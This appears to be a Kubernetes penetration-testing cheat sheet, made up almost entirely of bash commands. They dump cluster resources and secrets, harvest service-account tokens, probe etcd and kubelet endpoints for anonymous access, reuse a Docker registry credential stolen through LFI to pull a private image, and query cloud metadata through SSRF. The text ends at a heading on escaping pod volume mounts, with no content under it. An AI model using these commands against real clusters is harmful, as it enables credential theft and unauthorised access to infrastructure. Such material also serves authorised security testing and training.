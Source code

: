 ### Quick attacks

```bash
# Dump all
for res in $(kubectl api-resources -o name);do kubectl get "${res}" -A -o yaml > ${res}.yaml; done

# Check for anon access
curl -k https://<master_ip>:<port>
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
curl http://<external-IP>:10255/pods

#Dump tokens from inside the pod
kubectl exec -ti <pod> -n <namespace> cat /run/secrets/kubernetes.io/serviceaccount/token

#Dump all tokens from secrets
kubectl get secrets -A -o yaml | grep " token:" | sort | uniq > alltokens.txt

#Standard query for creds dump:
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/<namespace>/secrets/
# This also could works /api/v1/namespaces/kube-system/secrets/
```

### Attack Private Registry misconfiguration

```bash
# Web application deployed vulnerable to lfi
# Read configuration through LFI
cat /root/.docker/config.json
# Download this file to your host and configure in your system
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
# Pull the private registry image to get the backend source code
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
# Inspect and enumerate the image
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest
# Check for secrets inside container
ls -l /var/run/secrets/kubernetes.io/serviceaccount/
# Check environment vars
printenv
```

### Attack Cluster Metadata with SSRF

```bash
# Webapp that check the health of other web applications
# Request to 
curl http://169.254.169.254/computeMetadata/v1/
curl http://169.254.169.254/computeMetadata/v1/instance/attributes/kube-env
```

### Attack escaping pod volume mounts to access node and host
